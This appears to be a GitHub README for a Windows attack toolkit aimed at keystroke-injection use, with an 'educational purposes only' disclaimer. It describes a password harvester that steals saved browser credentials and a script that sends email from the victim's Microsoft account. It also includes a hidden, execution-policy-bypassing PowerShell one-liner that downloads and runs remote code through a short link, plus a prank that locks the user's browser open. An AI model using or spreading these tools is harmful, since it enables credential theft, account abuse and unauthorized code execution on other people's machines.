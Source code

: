 > **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.


## Tools

> **Note** \
> all tools target and have been tested for Windows

#### Urlshortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py 
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

#### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

### usage
```shell
powershell -w h -ep ByPass "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

#### Password harvester
Steal all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

#### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages 

### requirements
```shell
pip install --upgrade selenium-driverless
```

### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Acknowledgments
Inspiration, code snippets, etc.

[neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers \
[foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data) \
[unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox
